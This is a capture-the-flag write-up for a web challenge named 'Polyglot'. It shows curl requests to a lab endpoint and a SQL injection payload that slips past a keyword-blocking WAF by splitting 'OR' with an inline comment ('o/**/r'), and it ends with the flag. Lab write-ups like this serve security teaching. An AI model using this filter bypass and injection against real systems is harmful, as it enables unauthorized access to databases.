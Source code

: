 ```yaml
---
layout: writeup

title: Polyglot
level:
difficulty: hard
points: 400
categories: [web]
tags: []

flag: CBCV{0n3_p4Yl0AD_2_w0rLd5_4545}
---
```


### Polyglot

* Author: Prithvi

In this challenge, we are given a single endpoint behind a WAF:

```
http://20.244.12.130:8092/submit
```

The WAF blocks common SQL injection patterns (like `OR`, `AND`, `UNION`) and rejects malformed JSON. Our goal is to craft a payload that passes the WAF and retrieves the flag.

---

#### Step 1: Test basic input

We start by sending a normal JSON string:

```curl
curl -s -X POST http://20.244.12.130:8092/submit \
-H "Content-Type: application/json" \
-d '{"payload":"test"}'
```

Expected response:

```json
{ "status": "ok", "received_normalized": "test" }
```

- This confirms the endpoint accepts valid JSON and returns a normalized version of our payload.
- Malformed JSON triggers:

```json
{ "error": "invalid json" }
```

---

#### Step 2: Probe the WAF

Next, we try simple SQLi strings:

```curl
curl -s -X POST http://20.244.12.130:8092/submit \
-H "Content-Type: application/json" \
-d '{"payload":"admin' or '1'='1"}'
```

Output:

```json
{ "error": "blocked: sqli" }
```

- This indicates the WAF blocks literal `OR`.
- Other attempts like `AND`, `UNION`, or `--` are similarly blocked.

---

#### Step 3: Find a bypass technique

We observe that:

1. The WAF uses simple regex word-boundary checks (blocks literal keywords).
2. The endpoint accepts JSON input, meaning we can inject characters inside the string.

Idea: **use an inline SQL comment to split the keyword**:

```text
o/**/r
```

- `OR` is now broken across `o/**/r` → WAF regex does not match.
- The payload is still valid JSON and may normalize internally on the hidden server.

---

#### Step 4: Test polyglot payload

We construct the candidate payload:

```curl
curl -s -X POST http://20.244.12.130:8092/submit \
-H "Content-Type: application/json" \
-d '{"payload":"admin' o/**/r '1'='1"}'
```

- Variations with spacing inside the comment are also tested:

```text
admin' o/**/   r '1'='1
admin' o/**/r '1'='1
```

- All variations are valid **polyglot payloads**:

  - Pass WAF
  - Normalize internally to a hidden target string
  - Trigger flag return

---

#### Step 5: Analyze responses

- Payloads blocked by WAF return `{"error":"blocked: sqli"}`
- Malformed JSON returns `{"error":"invalid json"}`
- Correct polyglot returns:

```json
{ "flag": "CBCV{0n3_p4Yl0AD_2_w0rLd5_4545}" }
```

- Only **polyglot-style payloads** of this type work.
- Any naive attempt like `"admin' or '1'='1"` fails due to WAF.

---

#### Step 6: Summary

- **Challenge concept:** input interpreted in two contexts (JSON + SQL)
- **WAF protection:** blocks common SQL keywords
- **Solution:** craft a **polyglot payload** that:

  - Is valid JSON
  - Uses inline comments or other tricks to bypass regex
  - Normalizes to the hidden server’s expected string

```python
# Conceptual normalization inside hidden server
payload = "admin' o/**/r '1'='1"
normalized = payload.replace("/**/", "").strip().lower()
# normalized == "admin' or '1'='1"
```

---

### The flag found is:
## CBCV{0n3_p4Yl0AD_2_w0rLd5_4545}
